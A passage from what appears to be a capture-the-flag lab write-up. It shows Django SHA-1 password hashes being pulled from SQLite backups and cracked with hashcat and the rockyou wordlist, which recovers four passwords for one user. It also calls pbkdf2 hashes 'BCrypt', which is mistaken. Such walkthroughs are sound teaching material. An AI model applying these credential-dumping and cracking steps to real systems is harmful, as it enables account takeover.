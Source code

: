     crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
    admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
    oct.sqlite3
    jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
    martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
    tomHands|sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141
    crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
    admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
    sep.sqlite3
    jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
    martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
    tomHands|sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93
    crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
    admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
    

The BCrypt hashes (start with `pbkdf2`) are going to be very difficult to
crack. I’ll start with the others. There are eight unique hashes, four of
which belong to tom:

    
    
    martin@drive:/dev/shm$ ls | while read db; do echo "$db"; sqlite3 "$db" 'select username,password from accounts_customuser;'; done | grep sha1 | sort -u | tr '|' ':'
    admin:sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
    crisDisel:sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
    jamesMason:sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
    martinCruz:sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
    tomHands:sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93
    tomHands:sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
    tomHands:sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a
    tomHands:sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141
    

### Crack Passwords

I’ll take the usernames and hashes from the backup DB and send them through
`hashcat`:

    
    
    $ hashcat hashes --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:
                                                   
    124 | Django (SHA-1) | Framework
    ...[snip]...
    sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316
    sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93:john boy
    sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:johniscool
    sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
    ...[snip]...
    

All four passwords for tomHands crack.
